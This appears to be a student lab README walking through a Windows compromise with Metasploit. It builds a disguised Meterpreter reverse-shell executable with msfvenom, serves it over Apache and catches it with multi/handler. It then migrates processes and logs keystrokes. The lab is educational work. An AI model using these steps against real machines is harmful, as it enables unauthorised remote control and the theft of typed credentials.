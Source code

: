 # Compromising-windows-using-Metasploit
# Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
## PROGRAM:

Find the attackers ip address using ifconfig

## OUTPUT:
![image](https://github.com/Karthikeyan21001828/Compromising-windows-using-Metasploit/assets/93427303/5aceb2fa-25e0-4ae6-ac13-3de3b48efe03)

Create a malicious executable file fun.exe using msenom command

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT:
![image](https://github.com/Karthikeyan21001828/Compromising-windows-using-Metasploit/assets/93427303/7fe8a848-6e3d-45ea-a7a8-409c903ade20)

copy the fun.exe into the apache /var/www/html folder

## OUTPUT:
![image](https://github.com/Karthikeyan21001828/Compromising-windows-using-Metasploit/assets/93427303/1ee02a35-1c98-4bcc-ac54-3679af50083a)

Start apache server

sudo systemctl apache2 start

## OUTPUT:
![image](https://github.com/Karthikeyan21001828/Compromising-windows-using-Metasploit/assets/93427303/819e0e70-907f-40f6-8670-0706f52a06df)

Check the status of apache2

## OUTPUT:
![image](https://github.com/Karthikeyan21001828/Compromising-windows-using-Metasploit/assets/93427303/a9b6919e-25c8-4921-95d3-b7565f947cd3)

## Invoke msfconsole:

## OUTPUT:
![image](https://github.com/Karthikeyan21001828/Compromising-windows-using-Metasploit/assets/93427303/fab5b21c-0b93-4752-b1bb-115835a0ab26)


Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

## OUTPUT:
![image](https://github.com/Karthikeyan21001828/Compromising-windows-using-Metasploit/assets/93427303/a70f58af-8445-437c-ada8-fba6a870cd8c)

Starting a command and control Server

use multi/handler

set PAYLOAD windows/meterpreter/reverse_tcp

set LHOST 0.0.0.0

exploit

## OUTPUT:
![image](https://github.com/Karthikeyan21001828/Compromising-windows-using-Metasploit/assets/93427303/b5e4b16f-9776-4519-b9c2-cd43879bc44f)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:

http://192.168.1.2/fun.exe

The file "fun.exe" downloads.

## OUTPUT:
![image](https://github.com/Karthikeyan21001828/Compromising-windows-using-Metasploit/assets/93427303/e3c17188-41b6-464c-90c7-54a52737541c)

Bypass any warning boxes, double-click the file, and allow it to run.

## OUTPUT:
![image](https://github.com/Karthikeyan21001828/Compromising-windows-using-Metasploit/assets/93427303/83b488f1-edd1-4bf1-a608-d797b14cd200)

On kali give the command exploit

## OUTPUT:
![image](https://github.com/Karthikeyan21001828/Compromising-windows-using-Metasploit/assets/93427303/28b660ed-8c94-4a6d-ad83-2369d28509e4)

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

## OUTPUT:
![image](https://github.com/Karthikeyan21001828/Compromising-windows-using-Metasploit/assets/93427303/026b0b0e-7bdc-4356-bede-0e0074a58a35)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.

To become more persistent, we'll migrate to a process that will last longer.

Let's migrate to the winlogon process.

At the meterpreter > prompt, execute this command:

migrate -N explorer.exe

at meterpreter > prompt, execute this command:

netstat

A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.

Notice the "PID/Program name" value for this connection, which is redacted 

## OUTPUT:
![image](https://github.com/Karthikeyan21001828/Compromising-windows-using-Metasploit/assets/93427303/f6304e01-ea0b-44ea-bbf5-1304ca54bf06)

## Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. 

On the Windows target, open Notepad and type in some text, such as your name.

## OUTPUT:
![image](https://github.com/Karthikeyan21001828/Compromising-windows-using-Metasploit/assets/93427303/2f1d7815-61c8-4715-8c4d-514087c91eb6)

![image](https://github.com/Karthikeyan21001828/Compromising-windows-using-Metasploit/assets/93427303/64ad24af-a705-493a-8a70-7f016a76d058)

keyscan_dump	Shows the keystrokes captured so far

## OUTPUT:
![image](https://github.com/Karthikeyan21001828/Compromising-windows-using-Metasploit/assets/93427303/15f1ddea-0798-4009-8f0d-08d524f9b98b)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
